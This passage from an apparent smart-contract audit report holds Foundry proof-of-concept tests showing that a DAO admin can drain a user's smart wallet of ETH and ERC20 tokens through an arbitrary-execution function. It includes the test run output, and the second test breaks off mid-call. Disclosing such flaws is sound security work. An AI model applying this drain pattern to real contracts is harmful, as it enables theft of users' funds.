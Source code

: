 ```solidity
            address(rug),
            data,
            4 ether
        );
        console.log("wallet ETH balance for user after DAO admin rugging");
        console.log(wallet.balance);

    }
```

We run the test:

```solidity
forge test -vv --match testDaoRugFund_Pull_ETH_POC
```

the result is

```solidity
Running 1 test for test/foundry/LiquidStakingManager.t.sol:LiquidStakingManagerTests
[PASS] testDaoRugFund_Pull_ETH_POC() (gas: 353826)
Logs:
  wallet ETH balance for user after registering
  4000000000000000000
  wallet ETH balance for user after DAO admin rugging
  0

Test result: ok. 1 passed; 0 failed; finished in 13.63ms
```

the second POC shows the admin can steal the ERC20 token from the smart contract via arbrary execution.

```solidity
    function testDaoRugFund_Pull_ERC20_Token_POC() public {

        address user = vm.addr(21312);

        bytes[] memory publicKeys = new bytes[](1);
        publicKeys[0] = "publicKeys";

        bytes[] memory signature = new bytes[](1);
        signature[0] = "signature";

        RugContract rug = new RugContract();

        vm.prank(user);
        vm.deal(user, 4 ether);
        manager.registerBLSPublicKeys{value: 4 ether}(
            publicKeys,
            signature,
            user
        );

        address wallet = manager.smartWalletOfNodeRunner(user);
        ERC20 token = new MockToken();
        token.transfer(wallet, 100 ether);

        console.log("wallet ERC20 token balance for user after registering");
        console.log(token.balanceOf(wallet));

        vm.prank(admin);
        bytes memory data = abi.encodeWithSelector(IERC20.transfer.selector, address(rug), 100 ether);
        manager.executeAsSmartWallet(
            user,
            address(token),
```
